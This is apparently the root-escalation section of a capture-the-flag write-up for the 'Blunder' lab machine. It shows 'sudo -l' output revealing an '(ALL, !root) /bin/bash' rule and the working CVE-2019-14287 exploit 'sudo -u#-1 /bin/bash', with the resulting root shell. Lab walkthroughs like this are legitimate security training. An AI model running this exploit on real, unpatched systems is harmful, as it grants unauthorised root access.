 
## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, a part from one not working exploit, we cannot see anything intresting.  
As we know, linpeas does not have password for ```sudo -l``` but we do, so let's run sudo -l and provide the discovered password:  
```
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
We can notice this strange configuration in sudo ```(ALL, !root)``` as we google this string we se [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability) that allows privilege escalation with this configuration, since:  
```
The function which converts user id into its username incorrectly treats -1,or its unsigned equivalent 4294967295, like 0, which is always the user ID of root user.
```
so if we execute:  
```
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password:
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```
we get a shell as root.

